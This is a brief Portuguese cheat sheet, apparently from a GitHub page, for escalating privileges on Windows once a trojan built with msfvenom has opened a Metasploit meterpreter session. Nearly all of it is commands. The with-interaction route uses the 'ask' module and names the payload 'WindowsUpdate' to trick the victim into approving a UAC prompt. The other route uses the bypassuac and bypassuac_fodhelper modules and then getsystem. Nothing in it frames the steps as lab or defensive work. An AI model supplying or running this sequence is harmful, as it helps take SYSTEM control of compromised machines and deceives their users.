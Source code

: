 ### Escalação de privilégio ***com interação do usuário***
getuid
getprivs
getsystem -h

Depois de criar o cavalo de troia através do MSFVENOM faça:

metasploit
meterpreter> background
exploit (multi/handler)> search uac
use exploit/windows/local/ask

exploit (windows/local/ask) > set FILE_NAME WindowsUpdate
exploit (windows/local/ask)> session 1
exploit (windows/local/ask)> technique PSH
exploit (windows/local/ask)> run
exploit (windows/local/ask)> sessions -i 2

### Escalação de privilégio ***sem interação do usuário***

1ª tentativa
use exploit/windows/local/bypassuac
set session 1 
run

2ª tentativa
use exploit/windows/local/bypassuac_fodhelper
exploit (windows/local/bypassuac_fodhelper)> set session 1 
exploit(windows/local/bypassuac_fodhelper)> run
meterpreter> getsystem


